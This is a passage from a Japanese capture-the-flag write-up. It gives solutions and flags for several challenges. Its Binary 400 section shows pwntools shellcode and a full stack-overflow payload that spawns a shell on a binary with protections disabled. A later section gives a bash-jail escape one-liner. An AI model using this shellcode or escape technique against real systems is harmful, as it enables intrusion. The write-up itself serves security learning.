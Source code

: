 でフラグが得られました。

```
TsssssssssssTheSnakeSwaresToTakeRevengeTsssssssssss
```

## [Binary 400] Can You Ride The Dragon To New Heights?

ASLR は無効、checksec をすると

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

という感じでした。

```python
from pwn import *
context(arch='amd64', os='linux')
shellcode = ''
shellcode += 'xor eax, eax; mov al, SYS_setresgid; xor edi, edi; mov di, 1007; xor esi, esi; mov si, 1007; xor edx, edx; mov dx, 1007; syscall;'
shellcode += shellcraft.sh()
print repr(asm(shellcode))
```

でシェルコードを作ったあと、`./sploit $(python -c "import struct; payload = ''; payload += '1\xc0\xb0w1\xfff\xbf\xef\x031\xf6f\xbe\xef\x031\xd2f\xba\xef\x03\x0f\x05hri\x01\x01\x814$\x01\x01\x01\x011\xd2Rj\x08ZH\x01\xe2RH\x89\xe2jhH\xb8/bin///sPj;XH\x89\xe7H\x89\xd6\x99\x0f\x05'; payload += 'A' * (72 - len(payload)); payload += struct.pack('<Q', 0x7fffffffeac0); print payload")` という感じでシェルが取れました。あとは `cat .passwd` でフラグが得られました。

```
iTsEEMsYouKnowHowToRideDragons,AreYouADragonRider?
```

## [Binary 450] I'm special

特殊文字しか使えない bash でした。

`*` を実行すると同じディレクトリに `bash_jail.sh` という名前のファイルがあると分かります。これの先頭 4 文字を使って bash を起動させてしまいましょう。

`__=$(($$/$$));?????????.??;${_::$(($__+$__+$__+$__))}` を実行すると bash が起動できました。あとは `./flag_reader flag` でフラグが得られました。

```
Do_You_Think_Bash_Is_Easy_Bruh?
```

## [Network 200] NGINX default config

まず http://web1.ctfsecurinets.com:81/robots.txt を見ると
